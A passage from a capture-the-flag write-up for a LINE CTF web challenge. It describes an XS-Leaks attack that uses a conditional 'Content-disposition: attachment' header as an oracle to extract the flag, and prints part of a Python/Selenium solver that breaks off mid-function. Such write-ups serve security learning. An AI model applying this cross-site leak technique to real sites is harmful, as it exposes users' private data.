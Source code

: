 Looking at lines 8-9, you can see that `Content-disposition: attachment` is included in the response header when all of the following conditions are met.

- Have one or more Notes
- `request.args.get('download')` is not None

In short, after giving `?download=` as the query string, the result of executing the search function is divided as follows.

|Count of Notes|There's `Content-disposition: attachment`|
|:-:|:-:|
|One or more|✅|
|Less than one|✖|

I expected we could obtain that flag with XS Leaks, which uses this property as an oracle.
When I reported the URL `{{BASE_URL}}/search?q=%&download`[^ 6] to the administrator, I got an unusual message of`ng`, so this prediction was correct.

### Solver

Using the Solver below, I extracted the flag string character by character from the beginning.[^7]

```py
import os
import string
import subprocess
from concurrent.futures.thread import ThreadPoolExecutor
from urllib.parse import quote, urljoin

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

BASE_URL = os.getenv('BASE_URL')

USERNAME = os.getenv('USERNAME')
PASSWORD = os.getenv('PASSWORD')

S = string.ascii_lowercase + string.digits + '-'

FLAG_PRE = 'LINECTF{'
FLAG_SUF = '}'

def length_is(n: int) -> str:
    return f'{FLAG_PRE}{"_" * n}{FLAG_SUF}'

def nth_char_is(n: int, c: str) -> str:
    return f'{FLAG_PRE}{"_" * (n - 1)}{c}%{FLAG_SUF}'

def prop_holds(prop: str):
    print(f"\r[info] Attempting this prop => '{prop}'\033[0K", end='')

    options = Options()
    options.add_argument('--headless')
    driver = webdriver.Chrome(os.getenv('CHROME_DRIVER_PATH'), options=options)
    try:
        # Login
        driver.get(urljoin(BASE_URL, '/login'))
        driver.find_element_by_css_selector('input[name=username]').send_keys(USERNAME)
        driver.find_element_by_css_selector('input[name=password]').send_keys(PASSWORD)
        driver.find_element_by_css_selector('button[type=submit]').submit()

        # Move to /report
        report_bug_button = driver.find_element_by_css_selector('a.button.is-warning.is-light')
```

[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.